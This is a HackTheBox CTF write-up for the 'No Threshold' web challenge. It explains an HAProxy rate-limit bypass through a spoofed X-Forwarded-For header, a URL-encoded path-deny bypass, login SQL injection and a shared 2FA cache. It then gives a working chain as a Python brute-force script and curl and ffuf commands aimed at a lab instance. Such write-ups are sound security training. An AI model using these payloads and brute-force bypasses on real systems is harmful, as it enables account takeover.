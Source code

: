 ```yaml
---
date: 2025-01-17
description: HAProxy misconfigs, 2FA-bruteforcing, SQLi
platform: HackTheBox
categories: Web
tags:
  - sqli
  - haproxy
  - brute-force/authentication
  - mfa
  - url-bypass
  - code-review
  - python
  - flask
duration: 180 minutes
---
```

# No Threshold
Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩

# Tech stack
- flask application
	- login - redirects to 2fa
	- verify2fa - sets redirect to dashboard 
	- dashboard - target/flag
- db
	- sqlite 
	- admin user initialized
- uwsgi.ini: cache for 2fa
- haprodxy.cfg: load-balancer rate-limiting, and deny path

# Vulnerability 
## HAProxy Conf 
> This is a HAProxy configuration file. HAProxy is a high-performance load balancer and reverse proxy server.

The load balancer applies rate-limiting based on the `haproxy.cfg`:
- It checks for `X-Forwarded-For` in headers, if it exists, adds `src` ip if not .
- Applies rate limiting on /auth/verify-2fa based on `X-Forwarded-For ip`
- Only valid ipv4 address 
> There is a configuration error because an attacker can simply modify his X-Forwarded-For header to bypass rate-limiting  
```
http-request add-header X-Forwarded-For %[src] if !{ req.hdr(X-Forwarded-For) -m found }
```
Additionally the /auth/login are "denied" using this setting 
```
http-request deny if { path_beg /auth/login }
```
resources 
https://www.haproxy.com/documentation/haproxy-configuration-tutorials/core-concepts/acls/
https://github.com/Neptunians/intent-ctf-2021-writeup


## Login 
- Login is vulnerable so SQL injection since input is not parameterized/sanitized 
- Redirects to 2fa after successful login with 4 digit code
```python
@login_bp.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
			# ...
            user = query_db(
                f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
                one=True,
            )
            # ....
            set_2fa_code(4)
```
> verify-2fa code logic just checks if there's a valid 2fa in the uwsgi cache, and check if the code is found in the cache, so multiple users can just simply login using others 2FA as long as it still lives in the cache (5 minutes) 

# Exploit
Chain these attacks 
## Bypass Blacklisted URL 
- bypassing /auth/login in browser: http://localhost:1337/auth%2Flogin
- bypassing in curl `curl --path-as-is http://localhost:1337/./auth/login`
## SQL Injection
- Using generic `admin' OR 1=1--` in username
```python
# sqli
data = {"username": "admin' OR 1=1--", "password": "123"}
# haproxy bypass
resp = requests.post(url+"/auth%2flogin", data=data)
```

## Rate Limiting in 2FA
- bypass by generating unique `X-Forwarded-For` header 
- fuzz for valid 2fa by brute-forcing codes 

> Solution initially python, too slow to brute-force 2fa just used burp intruder
```python

def verify_2fa(session, code, headers):
	data = {"2fa-code": code}	
	resp = requests.post(url+"/auth/verify-2fa", data=data, headers=headers)
	print(resp.request.headers)
	if "Invalid 2FA" in resp.text:
		return False
	return resp.text

def octal_to_ipv4(octal):
    # ... 

s = login()
# brute2fa
headers = {"X-Forwarded-For": "0"}
if s: 
	# pitchfork X-Forwarded-For:2facode 
	for i in range(10000):
		# rate-limit bypass 
		octal = f"7111{i:04o}"
		ipv4 = octal_to_ipv4(octal)
		headers["X-Forwarded-For"] = ipv4

		# 2fa-code bruteforce
		code = f"{i:04}" 
		print(f"{headers}: {code}")
	
		resp = verify_2fa(s, code, headers)
		if resp:
			print(resp)
			break	
```

using tools 
```bash
curl http://94.237.58.12:53973/auth%2flogin -d "username=admin' OR 1=1--&password=123" -X POST

ffuf -u "http://94.237.58.12:53973/auth/verify-2fa" -X POST -H "X-Forwarded-For: FUZZ2" -H "Content-Type: application/x-www-form-urlencoded" -d "2fa-code=FUZZ1" -w "ipv4s.txt:FUZZ2" -w "9999.txt:FUZZ1" -c --mode pitchfork -v -r -x http://127.0.0.1:8080 -t 120
```
# Brute-Forcing using intruder
- Config inruder
	- X-Forwarded-Header: generate wordlist first 
	- 2fa-code: 0000-9999
	- turn off url-encode
	- Follow redirection with cookies 

![](_attachments/Pasted%20image%2020250116222802.png)

